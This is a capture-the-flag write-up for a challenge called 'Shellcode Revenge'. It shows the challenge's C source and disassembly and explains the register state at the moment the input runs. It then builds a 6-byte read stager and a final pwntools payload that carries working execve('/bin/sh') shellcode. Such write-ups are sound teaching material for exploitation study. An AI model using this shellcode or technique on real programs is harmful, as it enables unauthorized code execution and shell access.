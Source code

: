 # Shellcode Revenge

First, let's take a look at `shellcode_revenge.c`:

  ```C
  #include<stdio.h>

  char code[6];

  int main(){
      setvbuf(stdout,0,2,0);
      puts( "Give me your shellcode , I will execute it directly , but only 6 bytes :(");
      puts( "Six bytes is enough for excellent hacker :)" );

      int (*yuawn)() = (int(*)())code;

      read( 0 , code , 6 );

      puts("Your shellcode is running... 66666666");
      yuawn();

      return 0;
  }
  ```
We can see that `read( 0 , code , 6 )` completely fills up `code[6]` so it is impossible to use that for overflow and yet it is impossible to insert a shellcode that runs `execve("/bin/sh\0", 0, 0)` in 6 bytes.

So, let's go on to `objdump -d shellcode_revenge`:
  
  ```
  400637:	48 c7 45 f8 59 10 60 	movq   $0x601059,-0x8(%rbp)
  40063e:	00 
  40063f:	ba 06 00 00 00       	mov    $0x6,%edx
  400644:	be 59 10 60 00       	mov    $0x601059,%esi
  400649:	bf 00 00 00 00       	mov    $0x0,%edi
  40064e:	b8 00 00 00 00       	mov    $0x0,%eax
  400653:	e8 78 fe ff ff       	callq  4004d0 <read@plt>
  ```
  
We can see that  `read( 0 , code , 6 )` will read to the address `0x601059`, which is the beginning of `code`.

But, we still don't know what to put for a 6-byte shellcode.

Now, it is time for `gdb-peda` and check what are in the registers at the time `yuawn()`, which is our shellcode, is going to run:

  ![gdb-peda](gdb-peda.jpg)
  
And we can find something interesting...

First, under Linux x86-64 environment, the id and parameters for system call `read` are:

  * rax = 0
  * rdi = 0
  * rsi = pointer to store
  * rdx = length to read
  
From gdp-peda, we can see:

  * rax = 0
  * rdi = 0x1
  * rsi = 0x7fff7dd26a3
  * rdx = 0x601059
  
Wow! They are almost the same!  

What we need to do is make rdi = 0 and make rsi = 0x601059 to read again. (rdx does not matter since we do not have a read limit)

With the help of [online assembler](http://shell-storm.org/online/Online-Assembler-and-Disassembler/), I was able to find a 6-byte shellcode to execute read.

First, of course, `syscall` is needed, which is `\x0f\x05`. So, 4 more bytes are needed before it.

Next, an easy one -- make rdi = 0. I tried `mov rdi, 0` `mov edi, 0` `mov dil, 0` these are still too long. 

Then I remeber one `dec edi`, which will be `\xff\xcf`, perfect!   
  * Note: I later found out that `xor edi, edi` is also 2 bytes
  
Finally, last part: make rsi = 0x601059. This was hard, but after googling, I found a method that I could try -- `xchg`.
So, `xchg edx,esi`, which is `"\x87\xf2"`, hmmmmm 2 bytes!

So, the 6-byte shellcode will be:

    "\x87\xf2\xff\xcf\x0f\x05" 
    
When `yuawn()` runs the shellcode it will start another read, which will look like `read(0, code, a large number)`. Therefore, we need to overwrite the original 6-byte shellcode with padding first, then follow up with the shellcod used in the previous question.

In the end, the playload will look like:

  ```python
  p.sendline(b"\x87\xf2\xff\xcf\x0f\x05"+ b"\x90"*6 +
	   b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05")
  ```
  
    


